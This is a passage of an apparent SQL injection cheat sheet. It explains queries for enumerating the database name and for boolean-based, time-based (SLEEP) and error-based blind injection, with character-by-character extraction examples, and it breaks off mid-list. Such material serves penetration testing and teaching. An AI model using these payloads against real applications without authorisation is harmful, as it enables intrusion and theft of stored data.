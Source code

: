 1. **`SELECT database();`**
    
    - **What it does:** Returns the name of the current database.
    - **Why it’s useful:** Helps attackers understand the database context.
2. **`SELECT SUBSTRING(database(), 1, 1);`**
    
    - **What it does:** Extracts the first character of the database name.
    - **Why it’s useful:** Enables attackers to enumerate the database name character by character in blind SQLi scenarios.

---

#### **Boolean-Based Testing**

1. **`SELECT * FROM products WHERE name = 'Laptop' AND 1=1;`**
    
    - **What it does:** The condition `1=1` is always true, so the query behaves normally.
    - **Why it’s useful:** Confirms SQL injection if the response is unchanged.
2. **`SELECT * FROM products WHERE name = 'Laptop' AND 1=2;`**
    
    - **What it does:** The condition `1=2` is always false, so the query returns no rows.
    - **Why it’s useful:** Helps identify SQL injection vulnerabilities by observing changes in the application's response.

---

#### **Time-Based Testing**

1. **`SELECT * FROM products WHERE name = 'Laptop' AND SLEEP(5);`**
    
    - **What it does:** If the query executes successfully, the database delays its response by 5 seconds.
    - **Why it’s useful:** Confirms SQL injection vulnerabilities when the response is delayed.
2. **Time-Delay Substring Example:**
    
    ```sql
    SELECT IF(SUBSTRING((SELECT database()), 1, 1) = 'a', SLEEP(5), 'a');
    ```
    
    - **What it does:** Checks if the first character of the database name is `'a'`. If true, the query sleeps for 5 seconds.
    - **Effect:** Character-by-character database name extraction in blind SQLi.

---

#### **Error-Based Testing**

1. **`SELECT IF(SUBSTRING((SELECT database()), 1, 1)='a', (SELECT table_name FROM information_schema.tables), 'a');`**
    
    - **What it does:** Extracts table names from the database schema if the condition is true.
    - **Why it’s useful:** Leverages errors to extract metadata about the database.
2. **Error-Based Character Matching:**
    
    ```sql
    SELECT CASE WHEN (ASCII(SUBSTRING((SELECT database()), 1, 1)) = 97) THEN CAST('' AS INT) ELSE '' END;
    ```
    